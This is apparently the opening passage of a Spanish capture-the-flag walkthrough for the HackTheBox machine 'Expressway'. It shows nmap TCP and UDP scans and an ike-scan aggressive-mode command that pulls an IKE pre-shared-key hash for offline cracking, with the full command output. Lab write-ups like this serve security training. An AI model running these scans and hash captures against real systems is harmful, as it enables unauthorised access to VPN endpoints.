

En este tutorial, te mostraré cómo logré obtener el control total sobre la maquina "Expressway" en HackTheBox Season 9.

---
## Resultados Nmap
### TCP port scan
```console
┌──(secbytiago㉿tiaago)-[~]
└─$ sudo nmap -sC 10.10.11.87 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 15:43 -03
Nmap scan report for expressway.htb (10.10.11.87)
Host is up (0.14s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
```
### UDP port scan
```console
┌──(secbytiago㉿tiaago)-[~]
└─$ sudo nmap -sU -p 500 10.10.11.87

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 15:50 -03
Nmap scan report for expressway.htb (10.10.11.87)
Host is up (0.14s latency).

PORT    STATE         SERVICE
500/udp open|filtered isakmp
```
## Obtener una contraseña usando el modo agresivo de IKE 
```console
┌──(secbytiago㉿tiaago)-[~]
└─$ sudo ike-scan -A -P -M 10.10.11.87

Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=f0ca987e93996ebf)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
cbaca84be7c0fc43f05b2530c46b7645b6a9c149a24e0fe84917301cf515f0fbe5f758ec34defa8ce93acfcd3f5de1ba50c6bc258743feddb757722ef25caa64cb225d77081077ece125582bc1ff2ee02481aaff21979c7b748ba52df2d5073288f1bd068f607c8db805ae4bf4411a2fe7cc06a3a48c6814abe82db376288317:4549d718794264a7ff2c2a322546704725086a479857fb6b4872f8c8dd770c8d59485d54cf0edb37b5b5dd6b5b8282ec60fd7175d426ad12f22396dc355f72e5ca810731e0e9310e42e20534c13b9a145df1a7601de3eb3e80d2df53eb3d3d924549c0b820cfc869a882b11a9e323800d57fc993d553073e665020aa6da2005d:f0ca987e93996ebf:cd453e29c2fc29d3:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:1eaef3e6bb583ae5cb321842c5df1f01e9b38326:8cdf953e76d699b276b1ce263ae83d4c3fd2bade98a9c4ab85e94bedb5876407:775f61371fcf66ef0caf3dc18c45027f72176ff5
Ending ike-scan 1.9.6: 1 hosts scanned in 0.166 seconds (6.04 hosts/sec).  1 returned handshake; 0 returned notify
```

